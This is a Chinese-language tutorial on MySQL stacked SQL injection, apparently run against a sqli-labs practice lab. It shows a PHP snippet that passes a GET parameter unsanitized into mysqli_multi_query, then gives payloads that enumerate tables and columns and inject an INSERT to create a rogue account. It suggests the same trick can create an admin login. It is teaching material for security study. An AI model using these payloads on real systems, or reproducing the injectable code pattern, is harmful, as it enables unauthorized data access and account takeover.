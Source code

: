 ## 0x00 堆叠注入攻击原理
在MySQL中的堆叠查询可以执行多条sql语句，语句之间以分号（；）隔开，堆叠注入就是利用这个特点，在第二条语句中构造要执行攻击的payload。  
在 mysql 里， mysqli_multi_query 和 mysql_multi_query 这两个函数执行一个或多个针对数据库的查询，多个查询需要用分号进行分隔。  
但是堆叠查询只能返回第一条查询信息，不返回后面的信息。  
堆叠注入危害较大，可以执行任意增删改查语句，例如添加数据、修改数据库、添加数据库用户等。

## 0x01 堆叠注入代码分析
```php
$id = $_GET['id'];
$sql = "select * from users where id = '$id' limit 0,1";
//执行多语句查询
if(mysqli_multi_query($con1,$sql))
{
    if($result = mysqli_store_result($con1))
    {
        if($row = mysqli_fetch_row($result1))
        {
            echo '<font size = "5" color="#00FF00"> ';
            printf("Your Name is : %s",$row[1])
        }
    }
}
```

## 0x02 堆叠注入利用
使用 id=1' and 1=2--+ 和 id=1' and 1=1--+ 确定是否存在注入。  
接着使用堆叠语法进行检测。  
查询该数据库对应的表名：
```sql
union select 1,2,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1)--+
```
获取所有的表对应的字段名：
```sql
union select 1,2,(select group_concat(column_name) from information_schema.columns where TABLE_NAME='users' limit 1)--+
```
此时我们已经知道了表的结构，每一列的数据类型等，我们可以使用insert into插入语句进行增加账号。如果是管理员信息表，可以直接添加管理员账号登录后台。  
http://192.168.0.145:7766/Less-38/?id=1%27;INSERT%20into%20users%20values(20,%27moonsec%27,%
27123456%27)--+  
```sql
;insert into users(id,username,password)values(1000,'moonsec','123456')--+
```
输入用户id为1000即可访问我们自己加入的账户，以上为堆叠注入的原理和简单利用流程。
